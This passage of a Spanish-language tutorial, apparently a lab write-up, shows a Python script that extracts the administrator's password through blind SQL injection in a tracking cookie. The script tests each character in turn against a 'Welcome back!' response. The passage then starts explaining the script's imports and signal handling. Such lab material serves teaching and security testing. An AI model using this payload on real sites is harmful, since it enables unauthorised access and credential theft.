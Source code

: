 ```python
    progressPass = log.progress('Password')

    for posicion in range(1,21): #1..20
        for caracter in caracteres:
            cookies = {
                'TrackingId': "%s' AND (SELECT substring(password,%d,1) FROM users WHERE username='administrator')='%s'-- -" % (cookie,posicion,caracter),
                'session': sessionHash
            }

            p1.status(cookies['TrackingId'])

            r=requests.get(url=page_url, cookies=cookies)

            if 'Welcome back!' in r.text:
                password += caracter
                progressPass.status(password)
                break


if __name__ == '__main__':
    makeRequest()
```

## Análisis del Código

### Importaciones y configuración inicial

```python
from pwn import *
import requests, signal, time, pdb, sys, string
```

- **pwn**: Librería para exploits que proporciona barras de progreso útiles
- **requests**: Para hacer peticiones HTTP
- **signal**: Para manejar la interrupción con Ctrl+C
- **string**: Para obtener caracteres alfanuméricos

### Manejo de señales

```python
def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)
```

Permite salir limpiamente del script con Ctrl+C.

### Configuración de parámetros
